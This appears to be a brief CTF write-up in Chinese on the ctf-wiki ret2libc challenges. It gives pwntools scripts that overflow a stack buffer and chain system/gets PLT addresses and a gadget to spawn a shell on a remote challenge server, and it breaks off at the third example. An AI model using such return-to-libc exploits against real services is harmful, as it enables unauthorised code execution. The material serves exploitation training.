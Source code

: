 ![](https://my-md-1253484710.file.myqcloud.com/20190407175502.png)

![](https://my-md-1253484710.file.myqcloud.com/20190407175715.png)

exp1:

```python
from pwn import *

# io = process('./ret2libc1')
io = remote("47.106.212.155",10006)
binsh_addr = 0x08048720
sym_plt_addr = 0x08048460

payload = flat([112*'A',sym_plt_addr,'b'*4,binsh_addr])
# 'bbbb' 作为函数调用栈返回地址的虚假的地址

io.sendline(payload)
io.interactive()
```

-----------------------

eg2:

 [ret2libc2](https://github.com/ctf-wiki/ctf-challenges/raw/master/pwn/stackoverflow/ret2libc/ret2libc2/ret2libc2)

缺少/bin/sh 只能自己寻找gadgets来进行构造。



exp:

```python
from pwn import *

# io = process('./ret2libc2')
io = remote("47.106.212.155",10007)
# binsh_addr = 0x08048720
sym_plt_addr = 0x08048490
sym_imp_gets_addr = 0x08048460
pop_ebx_addr = 0x0804872f
buf2_addr = 0x804a080

payload = flat(["A"*112,sym_imp_gets_addr,pop_ebx_addr,buf2_addr,sym_plt_addr,'x'*4,buf2_addr])
io.sendline(payload)
io.sendline("/bin/sh")
io.interactive()
```

eg3:

[ret2libc3](https://github.com/ctf-wiki/ctf-challenges/raw/master/pwn/stackoverflow/ret2libc/ret2libc3/ret2libc3)

2的基础上去掉了system的地址。
